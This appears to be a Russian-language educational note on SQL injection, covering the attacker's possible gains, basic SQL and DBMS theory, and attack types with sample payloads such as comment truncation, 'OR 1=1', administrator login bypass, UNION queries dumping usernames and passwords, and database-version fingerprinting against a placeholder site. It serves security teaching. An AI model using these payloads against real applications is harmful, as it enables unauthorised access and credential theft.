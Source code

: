 # SQL-инъекция
## Описание
SQL-инъекция - это эксплуатирование неправильно заданного динамического SQL запроса. Если входные данные не фильтруются специальным образом, злоумышленник может встроить в этот запрос вредоносный код. 

В результате такой атаки злоумышленник может:

+ Выполненять произвольные запросы к базе данных приложения
+ Читать любую конфиденциальную информацию из БД, в том числе пароли пользователей, адреса и данные банковских карт
+ Редактировать и удалять данные из БД
+ Читать/записывать/удалять локальные файлы на сервере СУБД
+ Исполненить произвольные команды на сервере СУБД

## Теория
Язык структурированных запросов или сокращенно SQL (Structured Query Language) был создан в 70-х годах под названием «SEQUEL» для системы управления базами данных (СУБД). SQL создавался как простой и стандартизированный способ извлечения и управления данными. В базе данных хранится информация, необходимая для работы сайта – контент, логины/пароли, настройки и данные о посетителях и клиентах.

Существуют различные типы СУБД, среди которых выделяют **реляционные** и **нереляционные**. SQL инъекции возможны **только в реляционных** СУБД.
Наиболее популярные реляционные СУБД:
+ MySQL
+ MS SQL Server
+ PostgreSQL
+ Oracle 

Подробнее с понятиями SQL, СУБД и их классификациями, можно ознакомиться здесь:
```
https://itglobal.com/ru-ru/company/glossary/subd-sistema-upravleniya-bazami-dannyh/
https://www.nic.ru/help/chto-takoe-subd_8580.html
```

## Виды атак
1. Преобразование запроса с помощью добавления комментария для получения дополнительных результатов. 
   ```sql
   SELECT * FROM products WHERE category = 'Gifts' AND released = 1
   SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
   ```
   ```
   https://insecure-website.com/products?category=Gifts
   https://insecure-website.com/products?category=Gifts'--
   ```
2. **Нарушение логики запроса** с помощью добавления логических выражений и комментариев.
   ```sql
   SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
   SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
   ```
3. Атаки с помощью [**UNION**](https://portswigger.net/web-security/sql-injection/union-attacks) (команда "объединение таблиц" в SQL) для получения данных из разных таблиц базы данных.
   ```sql
   SELECT a, b FROM table1 UNION SELECT c, d FROM table2
   ' UNION SELECT username, password FROM users--
   ```
4. [Извлечение информации о БД](https://portswigger.net/web-security/sql-injection/cheat-sheet), такой как **тип, версия и структура базы данных**.
   ```sql
   SELECT @@version
   SELECT banner FROM v$version
   SELECT version()
   ```